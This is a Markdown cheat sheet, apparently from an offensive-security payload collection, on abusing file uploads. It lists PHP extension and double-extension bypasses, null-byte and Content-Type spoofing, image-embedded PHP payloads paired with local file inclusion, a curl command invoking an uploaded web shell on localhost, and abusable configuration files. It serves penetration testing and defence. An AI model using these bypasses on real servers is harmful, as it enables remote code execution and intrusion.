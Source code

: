 # Upload

Uploaded files may pose a significant risk if not handled correctly. A remote attacker could send a multipart/form-data POST request with a specially-crafted filename or mime type and execute arbitrary code.

## Exploits

### PHP Extension

```powershell
.php
.php3
.php4
.php5
.php7

Less known extensions
.pht
.phar
.phpt
.pgif
.phtml

Double extensions
.jpeg.php
.jpg.php
.png.php
```

### Upload tricks

- Null byte (eg: shell.php%00.gif, shell.php%00.png)
- Mime type, change `Content-Type : application/x-php` or `Content-Type : application/octet-stream` to `Content-Type : image/gif`

### Picture upload with LFI

Valid pictures hosting PHP code. Upload the picture and use a local file inclusion to execute the code. The shell can be called with the following command : `curl 'http://localhost/test.php?0=system' --data "1='ls'"`.

- Picture Metadata, hide the payload inside a comment tag in the metadata.
- Picture Resize, hide the payload within the compression algorithm in order to bypass a resize. Also defeating `getimagesize()` and `imagecreatefromgif()`.

### Configuration Files

- .htaccess
- web.config
- httpd.conf
- \_\_init\_\_.py


### CVE - Image Tragik

```powershell
HTTP Request
Reverse Shell
Touch command
```

### File upload fuzzer

```https://github.com/basketas/upload-fuzz-dic-builder
```

## References

* Bulletproof Jpegs Generator - Damien "virtualabs" Cauquil
* [BookFresh Tricky File Upload Bypass to RCE, NOV 29, 2014 - AHMED ABOUL-ELA](https://secgeek.net/bookfresh-vulnerability/)
* [Encoding Web Shells in PNG IDAT chunks, 04-06-2012, phil](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)
* [La PNG qui se prenait pour du PHP, 23 février 2014](https://phil242.wordpress.com/2014/02/23/la-png-qui-se-prenait-pour-du-php/)

